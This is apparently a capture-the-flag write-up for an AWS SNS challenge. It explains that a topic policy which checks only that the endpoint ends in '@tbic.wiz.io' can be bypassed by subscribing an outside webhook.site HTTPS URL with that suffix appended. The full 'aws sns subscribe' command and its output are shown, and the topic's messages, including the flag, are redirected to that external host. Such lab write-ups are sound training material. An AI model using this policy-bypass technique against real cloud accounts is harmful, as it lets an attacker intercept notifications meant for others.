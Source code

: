 ```bash
```

## Solution

According to the policy, anyone can sign up for TBICWizPushNotifications alerts, but there is a requirement that the endpoint ends in @tbic.wiz.io.
Since we don't have any emails that finish in that domain, we can utilize webhooks to subscribe to it using a different protocol, such as HTTPS.  The URL is 
https://webhook.site

``` aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://webhook.site/{your-assigend-id}/@tbic.wiz.io```

```bash
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-e
ndpoint https://webhook.site/5c092bc0-4639-410f-b110-1277b64f1592/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
>
```

Now check the webook website:

<img width="1368" alt="Screenshot 2025-04-10 at 2 21 53 AM" src="https://github.com/user-attachments/assets/208f10e5-6702-4af9-bc61-b567c05a0ecb" />

On the webhook dashboard, you will find a POST notification indicating Subscription confirmation. To validate the subscription for notifications, please go to the URL provided in the SubscribeURL within the confirmation message. Once you confirm, you will receive the flag as part of the message.


<img width="1395" alt="Screenshot 2025-04-10 at 2 18 06 AM" src="https://github.com/user-attachments/assets/64944856-c872-4ab6-93e5-d38800486699" />

---

---
